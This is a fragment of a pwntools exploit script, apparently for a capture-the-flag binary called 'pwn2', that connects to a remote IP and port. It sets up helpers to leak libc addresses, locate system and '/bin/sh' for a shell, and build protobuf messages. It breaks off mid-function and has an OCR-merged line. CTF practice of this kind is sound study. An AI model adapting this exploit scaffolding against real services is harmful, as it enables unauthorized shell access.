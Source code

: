 ```python
def sla(a, b):

  p.sendlineafter(a, b)

def r():

  p.recv()

def pr():

  print(p.recv())

def rl(a):

  return p.recvuntil(a)

def inter():

  p.interactive()

def debug():

  gdb.attach(p)

  pause()

def get_addr():

  return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

def get_sb():

  return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

 

context(os='linux', arch='amd64', log_level='debug')

\#p = process("./pwn2")

p = remote('47.94.206.10', 34904)elf = ELF("./pwn2")

libc = ELF('./libc-2.31.so')

 

import sys

sys.path.append('./output')

import devicmesg_pb2

 

def add(idx, data_len, data):

    msg = devicmesg_pb2.devicmesg()

    msg.actionid = 1

    msg.msgidx = idx

    msg.msgsize = data_len
```